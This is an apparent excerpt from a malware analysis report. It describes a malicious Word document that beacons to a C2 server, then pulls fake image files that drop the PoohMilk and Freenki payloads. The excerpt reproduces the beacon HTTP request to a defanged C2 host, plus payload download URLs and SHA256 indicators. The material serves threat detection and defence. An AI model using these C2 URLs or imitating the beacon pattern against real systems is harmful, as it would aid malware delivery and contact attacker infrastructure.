 
GET /btob_asiana/udel_calcel.php?fdid=Skg/W1MkR2ZVOT5mVDg3JkpIO2RLRjNrSkgmIUpJO11TOGlhPV4/Z1NCLi4= HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; .NET4.0C; .NET4.0E)
Host: old.jrchina[.]com
Connection: Keep-Alive




123456

GET /btob_asiana/udel_calcel.php?fdid=Skg/W1MkR2ZVOT5mVDg3JkpIO2RLRjNrSkgmIUpJO11TOGlhPV4/Z1NCLi4= HTTP/1.1Accept: */*Accept-Encoding: gzip, deflateUser-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; .NET4.0C; .NET4.0E)Host: old.jrchina[.]comConnection: Keep-Alive





Figure 2. Malicious Word document callback beacon
The C2 server responds with a Base64 encoded PowerShell script which in turn downloads two fake image files that contain embedded PE binaries and a JavaScript file which extracts the embedded PE binaries onto the victim host as shown in Figure 3. The extracted PE payloads are what we label as PoohMilk and Freenki.



Original File SHA256
(Original File Name)
Download URL
Extracted Payload SHA256
(Saved File Name)
Description


1893af524edea4541c317df288adbf17ae4fcc3a30d403331eae541281c71a3c
(udel_ok.ipp)
http://old.jrchina[.]com/btob_asiana/udel_ok.ipp
-
JavaScript to extract and run the payload


64ef80e7639c8c5dddf239883617e6740c6b3589f995d11314d36ab64fcfc54c
(appach01.jpg)
http://old.jrchina[.]com/btob_asiana/appach01.jpg
7f35521cdbaa4e86143656ff9c52cef8d1e5e5f8245860c205364138f82c54df
(Windows-KB275122-x86.exe)
Fake image extracts to Freenki downloader


40572e1fc37f4376fdb2a33a6c376631ff7bc00b1e64538a0385bc1e09a85574
(appach02.jpg)
http://old.jrchina[.]com/btob_asiana/appach02.jpg
35273d6c25665a19ac14d469e1436223202be655ee19b5b247cb1afef626c9f2
(Windows-KB271854-x86.exe)
PoohMilk loader
